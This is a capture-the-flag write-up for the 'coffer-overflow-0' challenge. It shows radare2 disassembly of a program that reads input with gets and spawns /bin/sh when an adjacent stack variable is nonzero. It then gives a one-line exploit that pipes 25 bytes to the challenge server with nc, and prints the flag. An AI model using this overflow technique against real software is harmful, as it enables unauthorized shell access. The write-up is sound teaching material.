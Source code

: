# coffer-overflow-0

## Description

NotDeGhost

Can you fill up the coffers? We even managed to find the source for you.

## Solution

We're given a binary and source code.
Disassembling the source code gives us the following:

```asm
[0x00400590]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   sym.__do_global_dtors_aux
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 143          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init
[0x00400590]> pdf @ main
            ; DATA XREF from entry0 @ 0x4005ad
┌ 143: int main (int argc, char **argv, char **envp);
│           ; var char *s @ rbp-0x20
│           ; var uint32_t var_8h @ rbp-0x8
│           0x00400677      55             push rbp
│           0x00400678      4889e5         mov rbp, rsp
│           0x0040067b      4883ec20       sub rsp, 0x20
│           0x0040067f      48c745f80000.  mov qword [var_8h], 0
│           0x00400687      488b05d20920.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x601060:8]=0
│           0x0040068e      be00000000     mov esi, 0                  ; char *buf
│           0x00400693      4889c7         mov rdi, rax                ; FILE *stream
│           0x00400696      e8c5feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x0040069b      488b05ce0920.  mov rax, qword [obj.stdin]  ; obj.stdin__GLIBC_2.2.5
│                                                                      ; [0x601070:8]=0
│           0x004006a2      be00000000     mov esi, 0                  ; char *buf
│           0x004006a7      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006aa      e8b1feffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006af      488b05ca0920.  mov rax, qword [obj.stderr] ; obj.stderr__GLIBC_2.2.5
│                                                                      ; [0x601080:8]=0
│           0x004006b6      be00000000     mov esi, 0                  ; char *buf
│           0x004006bb      4889c7         mov rdi, rax                ; FILE *stream
│           0x004006be      e89dfeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream, char *buf)
│           0x004006c3      488d3dce0000.  lea rdi, str.Welcome_to_coffer_overflow__where_our_coffers_are_overfilling_with_bytes ; 0x400798 ; "Welcome to coffer overflow, where our coffers are overfilling with bytes ;)" ; const char *s
│           0x004006ca      e881feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006cf      488d3d120100.  lea rdi, str.What_do_you_want_to_fill_your_coffer_with ; 0x4007e8 ; "What do you want to fill your coffer with?" ; const char *s
│           0x004006d6      e875feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004006db      488d45e0       lea rax, [s]
│           0x004006df      4889c7         mov rdi, rax                ; char *s
│           0x004006e2      e899feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004006e7      48837df800     cmp qword [var_8h], 0
│       ┌─< 0x004006ec      7411           je 0x4006ff
│       │   0x004006ee      488d3d1e0100.  lea rdi, str.bin_sh         ; 0x400813 ; "/bin/sh" ; const char *string
│       │   0x004006f5      b800000000     mov eax, 0
│       │   0x004006fa      e871feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from main @ 0x4006ec
│       └─> 0x004006ff      b800000000     mov eax, 0
│           0x00400704      c9             leave
└           0x00400705      c3             ret
[0x00400590]>
```

Important things to note here:

 - `0x004006ee` calls `system` with the parameter `"/bin/sh"`, which spawns a shell.
 - `0x004006ec` includes instructions to jump and skip the above system call if `[var_8h]` is equal to 0 and `[var_8h]` is set to 0 at the start of the program.
 - `0x004006e2` includes an unsafe call to `gets` and sets the value of `s`.
 - `s` is placed on the stack after `[var_8h]`, allowing the call to `gets` to write to both variables.

The difference between `s` and `[var_8h]` is 0x20 - 0x8 bytes, or 24 bytes.
Therefore, writing 25 bytes is enough to alter the value of `[var_8h]`.

To prevent the program from exitting, we can use `cat` to direct `stdin` to `stdout` and pipe that to the program along with our payload.
This will allow us to type bash commands and read files such as `flag.txt` which contains our flag.

## Exploit Script

```sh
#!/bin/bash

(echo aaaaaaaaaaaaaaaaaaaaaaaaa; cat) | nc 2020.redpwnc.tf 31199
```

## Flag

```flag{b0ffer_0verf10w_3asy_as_123}```

